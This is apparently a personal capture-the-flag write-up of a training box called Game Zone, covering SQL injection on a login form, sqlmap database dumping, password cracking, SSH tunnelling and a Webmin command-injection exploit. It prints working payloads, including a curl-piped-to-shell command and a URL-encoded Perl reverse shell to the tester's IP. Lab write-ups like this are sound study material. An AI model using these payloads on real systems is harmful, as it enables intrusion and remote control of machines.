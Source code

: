 ```yaml
---
title: "Game Zone"
tags:
- writeups
---
```


## Recon
![[write-ups/images/Pasted image 20220821112327.png]]

First noticed that `httpd` was not running the latest version `2.4.54` & was using `2.4.18`, but didn't find [anything of value](https://www.cvedetails.com/vulnerability-list.php?vendor_id=45&product_id=66&version_id=553326&page=1&hasexp=0&opdos=0&opec=0&opov=0&opcsrf=0&opgpriv=0&opsqli=0&opxss=0&opdirt=0&opmemc=0&ophttprs=0&opbyp=0&opfileinc=0&opginf=0&cvssscoremin=0&cvssscoremax=0&year=0&cweid=0&order=1&trc=9&sha=4cda1da0c8c880d878436cb54f5ee0d53877947a) there. So I went to the web server

## Getting user with sqli
![[write-ups/images/Pasted image 20220821112636.png]]
Looks like of those hitman websites on Tor 😶‍🌫️. Besides some login & search functionality it doesn't seem we have much to work with here. Gobuster found `/images` & `/server-status`, but the latter one just gave us a [403 forbidden access](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/403). Now I could've started to look for a bypass, but decided to play with the login @ first for a bit since it was more spicy.

By supplying a basic payload in the username field: `' or 1=1-- -` we're redirected to `/portal.php`. Good we have [[sqli]]
![[write-ups/images/Pasted image 20220821113342.png]]
Here we can search for game reviews, since the login was vulnerable maybe this is too 😋
![[write-ups/images/Pasted image 20220821113843.png]]
Well... something happened. I guess based on the error thrown that we need a double qoute instead of a single one
![[write-ups/images/Pasted image 20220821114234.png]]
But I got nothing... Thus I went to a more reliable friend [sqlmap](https://sqlmap.org/). I saved the `POST` request to `portal.php` into a file from Burp *(`right-click -> Copy to file`)* & ran 
```bash
sqlmap -r `pwd`/portalReq.txt --dbms=mysql --dump
# OR without the request file
sqlmap -u "http://10.10.66.82/portal.php" --data "searchitem=test" -p "searchitem" --method POST
```
Which got me this
![[write-ups/images/Pasted image 20220821115407.png]]

Supplying the hash to [crackstation](https://crackstation.net/) has done the job for me
![[write-ups/images/Pasted image 20220821115524.png]]

What remains is to ssh... and we're in

![[write-ups/images/Pasted image 20220821115630.png]]


## Privesc
First things first I ran [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) in memory: `curl http://10.18.12.227:8001/linpeas.sh | sh`
- based on the old version of `sudo` I thought I might find some public exploit & I did, even multiple ones. Tried [pwfeedback Buffer Overflow](https://www.exploit-db.com/exploits/48052) and a [Heap-Based Buffer Overflow Privilege Escalation](https://www.exploit-db.com/exploits/49521) but without success
- we see some new active ports on `10000` and `3306`, for the moment I just took a mind-note about it
	- ![[write-ups/images/Pasted image 20220821122143.png]]
- it permits root login on `ssh`
- tried to abuse [[SUID files]] on `at` & `pkexec` but failed
In the end I went back to the new exposed services. But how can I see what are they serving. [[SSH Tunneling]] is here for rescue 🦸. We can tunnel both services through `ssh` to reach them from our localhost like this:
```bash
ssh -L 10000:localhost:10000 agent47@10.10.66.82
ssh -L 3306:localhost:3306 agent47@10.10.66.82
```
Once we go to `http://localhost:10000/` we see [Webmin](https://webmin.com/) running: *"web-based interface for system administration for Unix. Using any modern web browser, you can setup user accounts, Apache, DNS, file sharing and much more"*
![[write-ups/images/Pasted image 20220821123827.png]]

I tried to login as `agent47` with our known password & it just worked
![[write-ups/images/Pasted image 20220821123912.png]]


If we look @ the source we can find the version
![[write-ups/images/Pasted image 20220821124254.png]]

Finding around the interwebs I found this [RCE through /file/show.cgi](https://www.exploit-db.com/exploits/21851). So let's take a look at the metasploit module because we want to do things manually right 🫠?
- first it attempts to login with the supplied credentials
	- ![[write-ups/images/Pasted image 20220821132200.png]]
- then it sends a `GET` request @ `/file/show.cgi/bin/<random_char>|#<cmd>|` & sets the cookie
	- ![[write-ups/images/Pasted image 20220821132347.png]]
- since we're already logged in let's see if we can get a `ping` back with the following payload: `http://localhost:10000/file/show.cgi/show.cgi/bin/A/%7Cping -c 3 10.18.12.227%7C` *(i just added `A` as the random char & added my cmd: `ping -c 3 <ip>`, then url-encode)*
	- ![[write-ups/images/Pasted image 20220821132536.png]]
- and we got it 🥳 so let's spawn a shell. I tried all different kind of reverse shells until whaat worked for me was the [Perl one](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md#perl) url-encoded with [this website](https://www.urlencoder.io/)
	- `http://localhost:10000/file/show.cgi/show.cgi/bin/A/%7Cperl -e %27use Socket%3B%24i%3D%2210.18.12.227%22%3B%24p%3D1337%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fbash -i%22%29%3B%7D%3B%27%7C`
	- ![[write-ups/images/Pasted image 20220821133831.png]]

## See Also
- [[write-ups/THM]]